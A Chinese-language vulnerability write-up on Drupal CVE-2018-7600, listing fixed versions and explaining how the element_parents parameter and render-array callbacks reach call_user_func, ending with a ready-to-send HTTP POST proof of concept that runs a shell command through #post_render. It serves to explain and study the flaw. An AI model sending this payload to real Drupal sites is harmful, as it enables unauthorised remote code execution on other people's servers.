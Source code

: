 ```yaml
---
title: Drupal CVE-2018-7600 口语分析
date: 2018-5-24 8:50:30
tags: Web安全
toc: true
---
```


> 一些版本(还有6版本)
7.x版本，更新到 7.58 
8.5.x版本，更新到 8.5.1 
8.4.x 版本，更新到 8.4.6 
8.3.x 版本，更新到 8.3.9 

### 口语分析 

####  描述

一个CMS，它有一个流程：注册页面时提交页面正确，返回注册成功
如果表单出错，比如邮箱重复，会调用 buildform ，把post表单数据构造成数组，作为 html 表单数据返回，另一个问题是，上传图片时，会返回缩略图，调用表单数组，上传图片会调用 uploadAjaxCallback 方法，第一个参数是form表单数组，上传函数中会把get的第一个参数element_parents的值转为数组赋值给 form_parents,

	$form_parents = explode('/', $request->query->get('element_parents'));,
然后有个函数，是把 from_parents 数组当作路径(本来就是路径看下面的poc 就知道了)去  from 表单按照这个路径下只有一个数组，取出来赋值给新的 $from ,下面有个函数把 from 数组当作参数，函数返回又调用另一个函数，而这个函数调用了 call_user_func 方法，call_user_func 的第一个参数是 callable，callable 是由 elements['#pre_render'] 赋值的，这是 post 数据可控，第二个参数 mail[#markup] 也是 post 参数 。

####  post get 发送数据的一个点
这里边，还有个点，post 一般 只有 post 数据，而这里从 get ，post 取值，是因为post get，基于tcp/ip，因为 浏览器 / 服务器限制，让 get post 有点不同，get post  浏览器没限制的话，或直接发包，都是可以发 http 头中 data，body数据的。

### POC
```
POST /user/register?element_parents=account/mail/%23value&ajax_form=1&_wrapper_format=drupal_ajax HTTP/1.1

Host: 192.168.1.1:32767
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 109

form_id=user_register_form&_drupal_ajax=1&mail[#post_render][]=exec&mail[#type]=markup&mail[#markup]=whoami
```

